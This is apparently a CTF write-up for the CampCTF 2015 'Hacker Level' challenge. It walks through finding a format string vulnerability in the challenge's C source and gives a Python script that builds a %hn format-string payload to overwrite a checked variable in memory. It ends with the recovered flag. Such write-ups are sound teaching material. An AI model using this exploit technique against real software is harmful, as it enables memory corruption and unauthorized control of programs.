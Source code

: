 ```yaml
---
layout: post
title: "CampCTF 2015 Hacker Level"
date: 2015-08-19 20:57:39 -0400
author: [barrebas]
comments: true
categories: [campctf]
---
```


### Solved by barrebas

Easy 200 points. We're given a binary and the source. We need to supply a name that will be processed into an integer. The resulting integer should be `0xCCC31337`. If you look at the function:

```c
static uint32_t level = 0;

...

static void calc_level(const char *name) {
    for (const char *p = name; *p; p++) {
        level *= 257;
        level ^= *p;
    }
    level %= 0xcafe;
}
```

Finally, the value for `level` is modulo'd with `0xcafe`. This means that `level` can *never* be the required value `0xCCC31337`. We'll need to co-opt another section of code to pass the check. This quickly came to mind:

```c
    printf("What's your name? ");
    fgets(name, sizeof name, stdin);

    calc_level(name);

    usleep(150000);
    printf("Hello, ");
    printf(name);
```

Excellent. We have a format string vulnerability. After hex-editing the binary to get rid of the `usleep()` calls, I bruteforced the location of our format string on the stack (starts at position 7). Next, the disassembly of `hacker-level` shows us where `level` is at in memory:


```
 8048620:   cmp    DWORD PTR ds:0x804a04c,0xccc31337
```

All I needed to do was to write the correct format string. I came up with:

```python
import struct
def p(x):
    return struct.pack('<L', x)

payload = ""
payload += p(0x804a04c)
payload += p(0x804a04e)
payload += "%4911c%7$hn%47500c%8$hn"

print payload
```

Running this against the remote binary gave `The flag is: CAMP15_337deec05ccc63b1168ba3379ae4d65854132604`. Done!

